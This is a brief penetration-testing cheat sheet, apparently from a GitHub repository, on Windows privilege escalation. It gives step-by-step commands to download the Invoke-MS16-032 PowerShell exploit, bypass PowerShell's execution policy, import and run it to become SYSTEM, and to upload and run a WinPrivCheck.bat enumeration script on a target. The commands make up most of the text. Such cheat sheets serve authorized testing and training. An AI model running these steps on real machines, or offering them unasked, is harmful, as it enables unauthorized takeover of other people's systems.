 # Windows Privilege Escalation

## Exploit ms16_032
wget  [Invoke-MS16-032.ps1](https://github.com/kitsun3sec/Pentest-Cheat-Sheets/tree/master/CheatSheets/windows/priv_esc/Invoke-MS16-032.ps1)

#### Upload it to the target and through the powershell command line execute:
```bash
> powershell -ExecutionPolicy Bypass
> Import-Module .\Invoke-MS16-032.ps1
> Invoke-MS16-032
```
##### Done, if everything worked fine, you're now system user.

## WinPrivCheck.bat

##### Upload it to the target and run through terminal

```cmd
WinPrivCheck.bat
```